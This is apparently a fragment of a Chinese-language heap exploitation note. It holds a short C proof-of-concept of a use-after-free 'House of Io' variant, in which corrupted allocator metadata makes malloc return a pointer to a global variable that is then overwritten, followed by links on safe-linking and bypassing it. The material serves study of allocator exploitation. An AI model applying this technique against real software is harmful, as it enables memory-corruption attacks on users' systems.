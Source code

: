 ```c
/* STRUCT UAF variant of House of Io */

#include <stdio.h>
#include <stdlib.h>

unsigned long victim = 1;

typedef struct hi {
        char *a;
        char *b;
};

int main()
{
        long int *a, *b, *z;
        struct hi *ptr = malloc(sizeof(ptr));

        ptr->a = malloc(10);
        ptr->b = malloc(10);
        free(ptr);

        a = ptr->b;        
        *a = 2;

        z = (char *)a + 0x80;
        *z = &victim;
        b = malloc(0x15);
        *b = 2; 
        
        printf("%d\n", victim);

        return 0;
}
```



### 参考链接

在uclibc-ng中引入的补丁：https://gogs.waldemar-brodkorb.de/oss/uclibc-ng/commit/886878b22424d6f95bcdeee55ada72049d21547c  就是在取p->fd和存放p->fd时都改成调用REVEAL_PTR

https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/  机制介绍

https://www.researchinnovations.com/post/bypassing-the-upcoming-safe-linking-mitigation 机制绕过

 House of Io：https://awaraucom.wordpress.com/2020/07/13/house-of-io/

demo 地址： https://github.com/Ruia-ruia/Exploits

